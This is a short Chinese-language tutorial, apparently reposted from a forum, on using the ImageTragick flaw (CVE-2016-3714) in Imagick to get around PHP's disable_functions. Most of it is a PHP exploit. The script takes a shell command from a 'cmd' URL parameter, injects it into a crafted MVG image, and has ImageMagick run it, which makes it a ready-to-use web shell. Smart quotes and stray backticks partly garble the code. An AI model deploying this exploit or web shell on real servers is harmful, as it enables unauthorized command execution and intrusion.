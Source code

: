 # 利用 ImageMagick 漏洞绕过（一）

> 原文：[https://www.zhihuifly.com/t/topic/3470](https://www.zhihuifly.com/t/topic/3470)

## 利用 ImageMagick 漏洞绕过（一）

**1.利用条件**

Imagick <= 3.3.0
PHP >= 5.4

**2.基本原理**

ImageTragick（CVE-2016-3714）
漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。

**3.exp**

```
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == ‘cli’ ? $argv[1] : $_GET[‘cmd’];

if ($command == ‘’) {

$command = ‘id’;

}

$exploit = <<<EOF

push graphic-context

viewbox 0 0 640 480

fill ‘url([https://example.com/image.jpg"|$command"](https://example.com/image.jpg%22%7C%24command%22))’

pop graphic-context

EOF; `file_put_contents(“KKKK.mvg”, $exploit);

$thumb = new Imagick();

$thumb->readImage(‘KKKK.mvg’);

$thumb->writeImage(‘KKKK.png’);

$thumb->clear();

$thumb->destroy();

unlink(“KKKK.mvg”);

unlink(“KKKK.png”);

?>` 
```